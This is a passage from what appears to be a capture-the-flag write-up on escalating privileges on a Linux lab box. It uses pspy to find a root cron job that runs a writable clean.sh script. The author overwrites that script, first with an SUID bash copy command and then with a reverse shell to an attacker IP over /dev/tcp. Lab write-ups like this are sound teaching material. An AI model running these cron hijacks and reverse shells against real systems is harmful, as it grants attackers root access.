 > Directly download the pspy64 bit file using the download line (no need to clone the entire repository)

Once downloaded on our local machine, we can transfer the it to the target machine by using a `python` server and `wget`. And then make it executable. 

We can run it with simply by executing the command `./pspy64` and then wait for sometime as it snoops the processes that are being executed on the system.

After waiting for sometime, we can see the command that `cron` is running

```bash
2021/04/25 18:29:01 CMD: UID=0    PID=1517   | bash /var/www/html/tmp/clean.sh 
2021/04/25 18:29:01 CMD: UID=0    PID=1516   | /bin/sh -c cd /var/www/html/tmp && bash /var/www/html/tmp/clean.sh 
2021/04/25 18:29:01 CMD: UID=0    PID=1515   | /usr/sbin/CRON -f 
2021/04/25 18:29:01 CMD: UID=0    PID=1519   | 
```

It appears that `cron` is executing a file named `clean.sh` stored at `/var/www/html/tmp`. We can check the permissions for this bash script and see if we can modify that script to our benefit.

```bash
www-data@dmv:/var/www/html/tmp$ ls -la
total 12
drwxr-xr-x 2 www-data www-data 4096 Apr 12  2020 .
drwxr-xr-x 6 www-data www-data 4096 Apr 25 18:19 ..
-rw-r--r-- 1 www-data www-data   17 Apr 12  2020 clean.sh

```

We can see that, `www-data` is the owner of the file. So, we can easily modify its content and use it to escalate our privileges.

We can change its content to create a bash binary with SUID bit as `root` so we can use it to gain access as `root`. For this, we can run the command

```bash
www-data@dmv:/var/www/html/tmp$ echo "cp /bin/bash /tmp/myroot; chmod +s /tmp/myroot" > clean.sh

```

Once the content of the script are updated, we can again run `pspy64` and monitor till the `cron` executes the script. But in this case even after the script gets executed by `cron`, the `myroot` file does not get created in the `/tmp` directory. We can try to change the path from `/tmp` to something else as well but it won't work. Also, when tried to run the script directly as `www-data` the script executes successful and the `myroot` file also gets created (obviously of no use because it'd have the SUID bit set for `www-data`. This can be done for making sure that script is working properly). 

So, the next thing that we can do is try to create a remote shell by putting some reverse shell command in the `clean.sh` file. For this we can run the command:

```bash
echo "sh -i >& /dev/tcp/10.8.91.135/4445 0>&1" > tmp/clean.sh
```

Start a listener on our local machine over the new port number provided and again start `pspy64` to check when the script gets executed. Now, as soon as the script gets executed we get a shell as `root` on our listener

